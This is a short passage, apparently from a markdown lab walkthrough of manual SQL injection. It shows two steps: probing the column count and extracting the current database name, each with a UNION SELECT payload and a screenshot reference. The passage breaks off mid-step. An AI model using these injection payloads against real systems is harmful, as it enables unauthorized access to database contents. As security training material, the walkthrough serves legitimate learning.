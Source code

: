         ![Manual SQLi DBMS version](./screenshots/sql-injection/manual-sqli-version.jpg)

    3. Try guessing column count:
        ```sql
        -1 UNION SELECT null, null --
        ```
        - Produces no results
    
    4. Try getting DB name:
        ```sql
        -1 UNION SELECT null, database() --
        ```
        - Shows current DB name
        - Screenshot of the DB name result:
        